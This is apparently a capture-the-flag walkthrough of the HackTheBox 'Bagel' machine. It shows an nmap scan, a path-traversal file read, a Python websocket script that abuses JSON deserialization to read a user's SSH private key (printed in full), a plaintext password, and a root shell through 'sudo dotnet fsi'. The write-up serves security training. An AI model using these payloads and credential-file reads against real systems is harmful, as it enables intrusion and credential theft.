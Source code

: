 # Introduction
Bagel is a medium level machine on HackTheBox which is a great box to learn about JSON # deserialization and how to exploit LFI to gain access to the machine
# Initial scan
First we start an NMAP scan to find all open ports on the machine and I found 3 ports which are `22,5000,8000` and port 8000 redirects us to `bagel.htb` domain so we add it to `/etc/hosts` file
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ nmap -sC -sV 10.10.11.201
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 12:58 EDT
Nmap scan report for 10.10.11.201
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.8 (protocol 2.0)
| ssh-hostkey: 
|   256 6e4e1341f2fed9e0f7275bededcc68c2 (ECDSA)
|_  256 80a7cd10e72fdb958b869b1b20652a98 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:19 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:36 GMT
|     Connection: close
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:47 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:20 GMT
|     Content-Length: 54
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (version).)</h1>
|   SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:48 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:49 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|_    <h1>Bad Request (Invalid request line (parts).)</h1>
8000/tcp open  http-alt Werkzeug/2.2.2 Python/3.10.9
|_http-server-header: Werkzeug/2.2.2 Python/3.10.9
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 29 May 2023 16:59:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 29 May 2023 16:59:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 263
|     Location: http://bagel.htb:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://bagel.htb:8000/?page=index.html">http://bagel.htb:8000/?page=index.html</a>.
```
and we open the website on port 8000 because it won't work on other ports and a website appears
![image](Bagel/img/1.png)
and we notice that there is a page parameter in the URL and it name of a file so we try LFI and it worked and we know from the /etc/passwd file that there are 2 users who are phil and devloper
![image](Bagel/img/2.png)
We tried trying to get interesting files without success, like the _id_rsa_ or some log file. We tried fuzzing _active_ system processes using a small one liner.
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$  for i in $(seq 900 1000); do curl bagel.htb:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 923
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 925
```
so we found some interesting processes pointing to a dll file with the name of bagel.dll so we download the file using LFI we found earlier and by using dnspy we found a password for the username developer but it didn't work on SSH but we found a way to inject json serialized data
![imag](Bagel/img/3.png)
# Initial foothold
so we create a python script to connect to the websocket on the machine and to inject serialized JSON data to be able to read the ssh key for phil user
```python
#!/usr/bin/python3 
import websocket,json 
ws = websocket.WebSocket() 
ws.connect("ws://bagel.htb:5000/") 
order = {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../../../home/phil/.ssh/id_rsa" }} 
data = str(json.dumps(order)) 
ws.send(data) 
result = ws.recv() 
print(result)
```
and we get the following results
```json
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ python3 script.py
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "11:44:45",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```
so we save the key in a file and give the right permissions
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ chmod 600 rsa_key
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ ssh phil@bagel.htb -i rsa_key
Last login: Tue Feb 14 11:47:33 2023 from 10.10.14.19
[phil@bagel ~]$
```
and we are able to retrieve the user.txt flag after that we try to login as developer using the password we got earlier *developer:k8wdAYYKyhnjg3K*
```bash
[phil@bagel ~]$ su developer
Password: 
[developer@bagel phil]$ 
```
# Privilege Escalation
we run sudo -l do see our permissions and we got the following
```
[developer@bagel phil]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME
    LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```
so we can run dotnet as admin so we go to [gtfiobin](https://gtfobins.github.io/gtfobins/dotnet/#sudo) and we get root
```bash
[developer@bagel phil]$ sudo dotnet fsi
>System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# id 
uid=0(root) gid=0(root) groups=0(root)
```

# VOILA